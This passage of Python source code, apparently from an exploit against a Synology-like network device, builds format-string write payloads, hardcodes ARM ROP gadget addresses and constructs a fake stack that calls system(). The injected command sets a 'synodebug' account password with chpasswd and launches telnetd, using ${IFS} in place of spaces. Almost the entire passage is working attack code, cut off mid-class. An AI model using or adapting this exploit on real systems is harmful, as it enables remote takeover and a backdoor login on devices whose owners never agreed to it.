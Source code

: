 ```
            raw_payload += f"%{str_offset}c".encode()
            raw_payload += b"%924$hn"

        payload = self.prepare_payload(raw_payload)
        self.send_payload(payload)

    def write_byte_to_fake_stack(self, value, stack_offset, value_offset):
        """        Overwrite one byte value of our fake stack at a given offset and index.        """
        origin_ret_addr = 0x28a5c

        assert not (value >> 31 == 1)  # can't write signed value in one shot.

        self.point_to_fake_stack(stack_offset, value_offset)

        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        offset = ((1<<8) | value) - (len(raw_payload) + self.prefix_padding_size)
        raw_payload += f"%{str(offset)}c".encode()
        raw_payload += b"%924$hhn"
        payload = self.prepare_payload(raw_payload, payload_char=value)
        self.send_payload(payload)

    def stage_1(self):
        """        Prepare our fake stack.               +------ fake stack offset               |   +-- format string offset               V   V        0000: |00│120│ add_sp_20h_pop5-fmt_offset // r4: prepare the return address value before overwriting saved pc.        0004: |01│121│ junk                       // r5        0008: |02│122│ junk                       // r6        000c: |03│123│ junk                       // r7        0010: |04│124│ junk                       // r8        0014: |05│125│ pop_r3                     // pc: just to control the next blx r3.        0018: |06│126│ pop_r4_r5                  // r3        001c: |07│127│ add_r1_sp_18h_blx_r3       // pc: r1 points to the offset 0x38        0020: |08│128│ junk                       // r4        0024: |09│129│ junk                       // r5        0028: |10│130│ pop_r3                     // pc        002c: |11│131│ bl_system                  // r3        0030: |12│132│ mov_r0_r1_blx_r3           // pc: make r0 pointing to our payload        0034: |13│133│ junk        0038: |14│134│ "sh${IFS}-c${IFS}'echo${IFS}synodebug:synodebug|chpasswd;telnetd'"        """
        print("[+] Building a fake stack...")

        add_sp_20h_pop5       = 0x000294bc  # add sp, sp, #0x20; pop {r4, r5, r6, r7, r8, pc};
        pop_r3                = 0x000a8824  # pop {r3, pc}
        add_r1_sp_18h_blx_r3  = 0x00042bd0  # add r1, sp, #0x18; add r0, r4, #8; blx r3;
        bl_system             = 0x00025ddc  # bl system
        mov_r0_r1_blx_r3      = 0x0003fd5c  # mov r0, r1; blx r3;
        pop_r4_r5             = 0x0003f5dc  # pop {r4, r5, pc};

        self.write_webd_gagdet_to_fake_stack(gadget_offset=add_sp_20h_pop5-24, stack_offset=0)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=pop_r3, stack_offset=5)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=pop_r4_r5, stack_offset=6)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=add_r1_sp_18h_blx_r3, stack_offset=7)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=pop_r3, stack_offset=10)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=bl_system, stack_offset=11)
        self.write_webd_gagdet_to_fake_stack(gadget_offset=mov_r0_r1_blx_r3, stack_offset=12)

        cmd = b"sh${IFS}-c${IFS}'echo${IFS}synodebug:synodebug|chpasswd;telnetd'"
        for i, char in enumerate(cmd):
            stack_offset=(14+(i//4))  # 14 is the offset of our command string inside our fake stack.
            self.write_byte_to_fake_stack(value=char, stack_offset=stack_offset, value_offset=i%4)

    def stage_2(self):
        """        Overwrite the return address with the value stored at the offset 0 of our fake stack (offset 120).        """
```